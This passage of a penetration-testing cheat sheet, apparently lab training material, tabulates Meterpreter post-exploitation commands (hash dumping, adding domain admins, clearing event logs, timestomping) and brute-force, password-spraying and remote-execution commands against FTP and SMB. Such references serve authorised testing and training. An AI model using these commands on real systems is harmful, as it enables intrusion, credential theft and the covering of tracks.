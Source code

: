 |`getprivs`|Get as many privileges as possible on the target.|
|`uictl enable <keyboard/mouse>`|Take control of the keyboard and/or mouse.|
|`background`|Run your current Meterpreter shell in the background.|
|`hashdump`|Dump all hashes on the target. use sniffer Load the sniffer module.|
|`sniffer_interfaces`|List the available interfaces on the target.|
|`sniffer_dump <interfaceID> pcapname`|Start sniffing on the remote target.|
|`sniffer_start <interfaceID> packet-buffer`|Start sniffing with a specific range for a packet buffer.|
|`sniffer_stats <interfaceID>`|Grab statistical information from the interface you are sniffing.|
|`sniffer_stop <interfaceID>`|Stop the sniffer.|
|`add_user <username> <password> -h <ip>`|Add a user on the remote target.|
|`add_group_user <"Domain Admins"> <username> -h <ip>`|Add a username to the Domain Administrators group on the remote target.|
|`clearev`|Clear the event log on the target machine.|
|`timestomp`|Change file attributes, such as creation date (antiforensics measure).|
|`reboot`|Reboot the target machine.|
|||


## Attacking common services

### Attacking FTP

| **Command**                                                              | **Description**                                      |
| ------------------------------------------------------------------------ | ---------------------------------------------------- |
| `ftp 192.168.2.142`                                                      | Connecting to the FTP server using the `ftp` client. |
| `nc -v 192.168.2.142 21`                                                 | Connecting to the FTP server using `netcat`.         |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service.                       |
| `medusa -U users.list  -P pws.list -h $ip  -M ftp -n 2121`               | Brute-forcing the FTP service.                       |

---

### Attacking SMB

|**Command**|**Description**|
|---|---|
|`smbclient -N -L //10.129.14.128`|Null-session testing against the SMB service.|
|`smbmap -H 10.129.14.128`|Network share enumeration using `smbmap`.|
|`smbmap -H 10.129.14.128 -r notes`|Recursive network share enumeration using `smbmap`.|
|`smbmap -H 10.129.14.128 --download "notes\note.txt"`|Download a specific file from the shared folder.|
|`smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`|Upload a specific file to the shared folder.|
|`rpcclient -U'%' 10.10.110.17`|Null-session with the `rpcclient`.|
|`./enum4linux-ng.py 10.10.11.45 -A -C`|Automated enumeratition of the SMB service using `enum4linux-ng`.|
|`crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`|Password spraying against different users from a list.|
|`impacket-psexec administrator:'Password123!'@10.10.110.17`|Connect to the SMB service using the `impacket-psexec`.|
|`crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`|Execute a command over the SMB service using `crackmapexec`.|